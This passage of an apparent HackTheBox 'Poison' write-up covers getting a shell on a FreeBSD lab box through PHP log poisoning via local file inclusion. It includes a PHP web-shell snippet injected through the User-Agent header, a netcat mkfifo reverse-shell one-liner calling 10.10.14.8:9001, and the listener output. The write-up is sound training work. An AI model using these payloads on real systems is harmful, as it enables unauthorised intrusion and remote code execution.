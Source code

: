 ```shell
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
nc(1) (or netcat) is useful not only for redirecting input/output to
TCP or UDP connections, but also for proxying them with inetd(8).
csh: The terminal database could not be opened.
csh: using dumb terminal settings.
charix@Poison:~ %
```
And it works!
# shell as www
Looking at the name of the box I was wondering why it was named Poison. I was just looking up some of the technology stack that I was working with on Google followed by "poison" and saw there is a PHP Log Poisoning attack. Something that made me think that this me another path to get a shell is the name of the box (of course), and two because this attack is done in conjunction with LFI. Essentially what Log Poisoning is, is it is a technique that allows one to tamper with a log file and insert malicious code (i.e. PHP commands) within the log file which will be interpreted by the programming language as code to execute, giving the ability to have remote code execution. So first things first is to find where the log file is on disk. I did some digging and searched on Google for the path of the access logs for FreeBSD as that is what we're working with on this box. They mentioned it possibly being in `/var/log/httpd-access.log` and it was!
  <img src="{{ site.github.url }}/images/htb/poison/Pasted image 20230324040050.png" />
Something interesting you might see is the `User-Agent` which is a HTTP header to characterize to the web server what type of Operating System, Web Application, etc. you might be using. We can actually go and change this and insert malicious code (in this case the `<?php system($_GET['cmd']); ?>`) snippet which will allow us to use `cmd` as a parameter to input commands into for this file. So the log file will interpret this as legitimate code within the log file and give us the ability to do remote code execution. As a proof of concept, I ran the following within Burp Suite.
  <img src="{{ site.github.url }}/images/htb/poison/Pasted image 20230324040119.png" />
We can see from the response of the request I sent, we can see a list of files from running `ls`. From here we can utilize this and get a reverse shell by using this payload and URL encoding it:
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.8 9001 >/tmp/f
```
  <img src="{{ site.github.url }}/images/htb/poison/Pasted image 20230324040551.png" />
I set up a netcat listener on port 9001 and get a shell as `www`.
```shell
┌──(root㉿commando)-[/mnt/c/Users/bri5ee/Documents/htb/poison]
└─# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.84] 49584
sh: can't access tty; job control turned off
$
```
However, from here it seems like we need to user `charix` that we got earlier so we'll be continuing from that prospective to get root.
